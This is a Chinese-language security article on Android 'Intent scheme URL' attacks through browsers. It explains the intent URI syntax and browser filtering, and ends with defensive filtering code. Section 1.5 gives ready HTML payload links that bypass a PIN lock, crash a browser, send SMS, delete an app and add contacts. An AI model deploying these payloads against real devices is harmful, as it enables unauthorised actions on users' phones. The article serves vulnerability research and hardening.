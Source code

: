 # 一.  Intent scheme URL attack

---

**Author:瘦蛟舞**

**Create:20140824**

## 1.1  Android Intents with Chrome

Android有一个很少人知道的特性可以通过web页面发送intent来启动apps。以前通过网页启动app是通过设置iframe的src属性，例如：<iframe src="paulsawesomeapp://page1"> </iframe>。此方法适用version 18或者更早版本。其他android浏览器也适用。

这个功能在安卓chrome 浏览器version 25之后版本发生了改变。不能在通过设置iframe标签的src属性来启动app了。取而代之的是你应该通过自定义scheme实现用户手势启动app或者使用本文描述的“intent:”语法。

### 1.1.1  基本语法

“最佳实践”是构造一个intent插入网页中使用户能够登录app。这为您提供了更多的灵活性在控制应用程序是如何启动，包括传通过Intent Extras传递额外信息。
intent-based URI基本语法如下：

	intent:
	   HOST/URI-path // Optional host
	   #Intent;
	      package=[string];
	      action=[string];
	      category=[string];
	      component=[string];
	      scheme=[string];
	   end;

语法细节见源码Android source

![](img/parse1.png)

![](img/parse2.png) 
 
### 1.1.2  简单举例

例子是一个intent登陆应用“Zxing barcode scanner”，语法如下：

	intent:
	   //scan/
	   #Intent;
	      package=com.google.zxing.client.android;
	      scheme=zxing;
	   end;

设置a标签发href属性：

	<a href="intent://scan/#Intent;scheme=zxing;package=com.google.zxing.client.android;end"> Take a QR code </a>

Package和host定义在配置文件中Android Zxing Manifest

### 1.1.3  注意事项

如果调用activity的intent包含extras，同样可以包含这些。(不支持序列化)

Activity只有配置了category filter才有被android.intent.category.BROWSABLE通过这种方式在浏览器中打开，因为这样表明其是安全的。

### 1.1.4  另请参阅

* Android Intents and Intent Filters
* Android Activities

## 1.2  利用思路
 	
在Android上的Intent-based攻击很普遍，这种攻击轻则导致应用程序崩溃，重则可能演变提权漏洞。当然，通过静态特征匹配，Intent-Based的恶意样本还是很容易被识别出来的。
然而最近出现了一种基于Android Browser的攻击手段——Intent Scheme URLs攻击。这种攻击方式利用了浏览器保护措施的不足，通过浏览器作为桥梁间接实现Intend-Based攻击。相比于普通Intend-Based攻击，这种方式极具隐蔽性，而且由于恶意代码隐藏WebPage中，传统的特征匹配完全不起作用。除此之外，这种攻击还能直接访问跟浏览器自身的组件（无论是公开还是私有）和私有文件，比如cookie文件，进而导致用户机密信息的泄露。

## 1.3  Intent scheme URL的用法

看一下Intent Scheme URL的用法。

	<script>location.href = “intent:mydata#Intent;action=myaction;type=text/plain;end”</script>  

从用法上看，还是很好理解的，这里的代码等价于如下Java代码：

	Intent intent = new Intent("myaction");  
	intent.setData(Uri.parse("mydata"));  
	intent.setType("text/plain");  

再看一个例子：

	intent://foobar/#Intent;action=myaction;type=text/plain;S.xyz=123;i.abc=678;end  

上面的语句，等价于如下Java代码：

	Intent intent = new Intent("myaction");  
	intent.setData(Uri.pase("//foobar/"));  
	intent.putExtra("xyz", "123");  
	intent.putExtra("abc", 678);  

其中S代表String类型的key-value，i代表int类型的key-value。
源码中提供了Intent.parseUri(String uri)静态方法，通过这个方法可以直接解析uri，如果想更一步了解其中的语法，可以查看官方源码。

## 1.4  Intent scheme URI的解析及过滤

如果浏览器支持Intent Scheme URI语法，一般会分三个步骤进行处理：

* 利用Intent.parseUri解析uri，获取原始的intent对象；
* 对intent对象设置过滤规则，不同的浏览器有不同的策略，后面会详细介绍；
* 通过Context.startActivityIfNeeded或者Context.startActivity发送intent；

其中步骤2起关键作用，过滤规则缺失或者存在缺陷都会导致Intent Schem URL攻击。

关键函数

	Intent.parseUri()

绕过

	Intent.setComponent(null);

使用sel;

## 1.5  乌云案例

http://www.wooyun.org/bugs/wooyun-2014-073875 
http://www.wooyun.org/bugs/wooyun-2014-067798 

某浏览器对此支持非常好
	
	<a href="intent:#Intent;action=android.settings.SETTINGS;S.:android:show_fragment=com.android.settings.ChooseLockPassword$ChooseLockPasswordFragment;B.confirm_credentials=false;end">
	   设置绕过Pin码（android 3.0-4.3）
	</a><br>
 
![](img/pincode.png)

	<a href="intent:#Intent;component=com.tencent.mtt/com.tencent.mtt.debug.DbgMemWatch;end">
	    qq浏览器崩溃
	</a><br>
 
	<a href="intent:http://drops.wooyun.org/webview.html#Intent;component=com.android.browser/com.android.browser.BrowserActivity;end">
	    打开原生浏览器
	</a><br>
 
	<a href="intent:smsto:10000#Intent;action=android.intent.action.SENDTO;end">
	   发送短信
	</a><br>
	
	<a href="intent:#Intent;action=android.media.action.STILL_IMAGE_CAMERA;end">
	   打开相机
	</a><br>
	
	<a href="intent:package:org.wooyun.hiwooyun#Intent;action=android.intent.action.DELETE;end">
	   删除应用
	</a><br>
	
	<a href="intent:#Intent;action=android.intent.action.INSERT_OR_EDIT;S.name=magic;S.phone=+8610000;i.phone_type=2;type=vnd.android.cursor.item/person;end">
	    添加联系人
	</a><br>

## 1.6  修复

通过以上漏洞的描述，总结得出一种相对比较安全的Intent Filter方法，代码如下：

	// convert intent scheme URL to intent object  
	Intent intent = Intent.parseUri(uri);  
	// forbid launching activities without BROWSABLE category  
	intent.addCategory("android.intent.category.BROWSABLE");  
	// forbid explicit call  
	intent.setComponent(null);  
	// forbid intent with selector intent  
	intent.setSelector(null);  
	// start the activity by the intent  
	context.startActivityIfNeeded(intent, -1);  

## 1.7 参考

http://www.mbsd.jp/Whitepaper/IntentScheme.pdf

http://blog.csdn.net/l173864930/article/details/36951805

